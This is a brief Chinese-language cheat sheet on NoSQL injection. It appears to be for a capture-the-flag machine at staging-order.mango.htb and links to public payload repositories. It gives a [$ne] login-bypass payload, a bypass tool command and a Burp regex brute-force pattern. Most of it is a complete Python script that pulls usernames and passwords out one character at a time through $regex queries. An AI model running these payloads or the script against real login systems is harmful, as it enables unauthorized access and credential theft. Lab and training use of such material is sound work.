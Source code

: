 https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#exploits

**绕过登录**
原 :  username=qwe&password=qwe&login=login
注 :  username[$ne]=qwe&password[$ne]=qwe&login=login
[$ne] , 不等于

https://github.com/C4l1b4n/NoSQL-Attack-Suite
```python
./nosql-login-bypass.py -t http://staging-order.mango.htb -u username -p password -o "login=login"
```

**爆破凭据** 
- 使用 burpsuite，选中 `&data&` , a-Z 爆破
```
username[$regex]=^&data&.*&password[$ne]=qwe&login=login
```

- 使用 python 脚本爆破
https://github.com/youngowl13/nosqli-exploit/blob/master/nosqli.py
```python
import requests
import string

url = "http://staging-order.mango.htb/" #enter the url #enter the url
headers = {"Host": "staging-order.mango.htb"} #enter the host value
cookies = {"PHPSESSID": "gb181u8ebi4pavukj9ualeiot2"} #enter cookies

possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"",
"login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers,
cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
        if c == possible_chars[-1]: 
           print("Found password "+password[1:].replace("\\",
"")+" for username "+username)
           return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*",
"login": "login"}
    for c in possible_chars: 
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers,
cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params,
headers=headers, cookies=cookies, verify=False,
allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break
                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```


